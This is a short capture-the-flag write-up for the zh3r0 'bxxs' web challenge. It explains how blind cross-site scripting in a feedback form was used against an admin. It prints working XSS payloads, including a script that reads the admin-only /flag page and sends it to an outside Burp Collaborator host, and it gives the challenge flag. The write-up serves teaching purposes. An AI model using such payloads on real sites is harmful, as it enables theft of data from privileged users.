 ```yaml
---
layout: post
title: "bxxs"
author: "shreyas-sriram"
tags: ['Web']
---
```


We've made some new epic updates to our website. Could you send us some feedback on it ?

link - [bxxs](http://web.zh3r0.cf:3333)

## Solution
- The website contains a form which accepts feedback and sends it to the admin
- A quick check for blind XSS (clue from the challenge name?!) confirms the vulnerability

```
<script>
  location="//leet.burpcollaborator.net/";
</script>
```

- Attempts to read the admin cookie failed because of `httpOnly cookies`
- Another endpoint was ~~found~~ guessed (ctfs, duh), `/flag`, however only the admin can view the contents
- The following payload can be used to obtain the flag

```
<script>
var xhttp = new XMLHttpRequest();
xhttp.onreadystatechange = function() {
  if (this.readyState == 4) {
    var req = new XMLHttpRequest();
    req.open("POST", "http://leet.burpcollaborator.net/givemeflag?c="+window.location.href,true);
    req.send(xhttp.responseText);
  }
};
xhttp.open("GET", "http://0.0.0.0:8080/flag", true);
xhttp.send();
</script>
```

## Flag
```
zh3r0{{Ea5y_bx55_ri8}}
```
